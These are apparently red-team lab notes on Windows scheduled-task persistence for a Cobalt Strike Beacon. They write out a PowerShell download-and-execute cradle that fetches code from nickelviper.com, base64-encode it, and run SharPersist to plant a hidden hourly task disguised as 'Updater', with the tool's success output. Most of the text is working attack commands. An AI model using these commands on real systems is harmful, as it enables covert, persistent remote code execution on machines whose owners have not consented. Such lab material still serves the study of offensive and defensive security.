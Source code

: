 
The Windows Task Scheduler allows us to create "tasks" that execute on a pre-determined trigger. That trigger could be a time of day, on user-logon, when the computer goes idle, when the computer is locked, or a combination thereof.

Let's create a scheduled task that will execute a PowerShell payload once every hour.  To save ourselves from having to deal with lots of quotations in the IEX cradle, we can encode it to base64 and execute it using the `-EncodedCommand` parameter in PowerShell (often appreciated to `-enc`).  This is a little complicated to do, because it must use Unicode encoding (rather than UTF8 or ASCII).

In Attacker Desktop PowerShell:
```powershell

PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
```


  

In Linux:

```bash
# setting string to download "a" file from nickelviper.com
ubuntu@DESKTOP-3BSK7NO ~> set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
# base64 encoding the file 
ubuntu@DESKTOP-3BSK7NO ~> echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA

  
# setting persistence to have beacon reach out to attacker desktop once every hour
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly
[+] SUCCESS: Scheduled task added
```

![[schtasks persistence beacon.png]]
Where:

- `-t` is the desired persistence technique.
- `-c` is the command to execute.
- `-a` are any arguments for that command.
- `-n` is the name of the task.
- `-m` is to add the task (you can also `remove`, `check` and `list`).
- `-o` is the task frequency.

  

On the console of Workstation 2, open the Task Scheduler and select _Task Scheduler Library_ in the left-hand menu.  You should see your task appear in the main window.  You may of course wait for one hour, or simply highlight the task and click _Run_ in the right-hand _Actions_ menu.  This should spawn another Beacon.